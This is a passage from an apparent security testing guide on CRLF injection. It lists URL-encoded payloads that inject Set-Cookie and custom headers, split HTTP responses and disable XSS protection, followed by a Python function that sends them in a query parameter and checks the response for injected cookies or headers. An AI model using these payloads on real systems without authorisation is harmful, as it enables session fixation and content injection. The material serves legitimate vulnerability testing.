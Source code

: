 ## Testing for CRLF Injection

### Manual Testing Payloads

```
# Basic CRLF injection
%0D%0ASet-Cookie:%20test=injected

# CRLF with additional headers
%0D%0AX-Injected:%20header%0D%0ASet-Cookie:%20test=value

# Response splitting
%0D%0A%0D%0A<html><body>Injected Content</body></html>

# Complex payload
%0D%0ASet-Cookie:%20session=evil;%20HttpOnly;%20Secure%0D%0AX-XSS-Protection:%200
```

### Automated Testing

```python
def test_crlf_injection(base_url, parameter):
    """Test for CRLF injection vulnerabilities"""
    
    payloads = [
        "%0D%0ASet-Cookie:%20test=injected",
        "\r\nSet-Cookie: evil=value",
        "%0D%0AX-Injected: header",
        "test\r\nSet-Cookie: evil=value"
    ]
    
    results = []
    
    for payload in payloads:
        url = f"{base_url}?{parameter}={payload}"
        
        try:
            response = requests.get(url, allow_redirects=False)
            
            # Check for injected headers
            if 'test' in response.cookies or 'evil' in response.cookies:
                results.append({
                    'payload': payload,
                    'vulnerable': True,
                    'evidence': dict(response.cookies)
                })
            
            # Check for injected headers
            for header in ['x-injected', 'x-xss-protection']:
                if header in response.headers:
                    results.append({
                        'payload': payload,
                        'vulnerable': True,
                        'evidence': {header: response.headers[header]}
                    })
                    
        except Exception as e:
            print(f"Error testing {payload}: {e}")
    
    return results
```
